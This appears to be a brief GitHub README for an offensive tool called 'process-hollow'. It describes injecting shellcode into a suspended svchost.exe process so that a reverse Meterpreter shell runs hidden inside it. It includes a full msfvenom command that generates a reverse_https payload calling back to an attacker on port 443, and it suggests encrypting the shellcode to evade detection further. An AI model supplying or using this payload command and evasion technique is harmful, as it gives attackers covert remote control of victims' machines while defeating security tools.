 # process-hollow
evading suspicion by using process hollowing technique 
writes shellcode into the suspended process
reverse Meterpreter shell executing inside a svchost.exe process
msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f csharp
![image](https://github.com/user-attachments/assets/25effbcc-9f2a-406e-87f8-465596b4b22f)


better version just need to use even more evading 
https://github.com/bmdyy/proc-hollow

Can evade by encrypting shellcode or doing something else other than a reverse shell
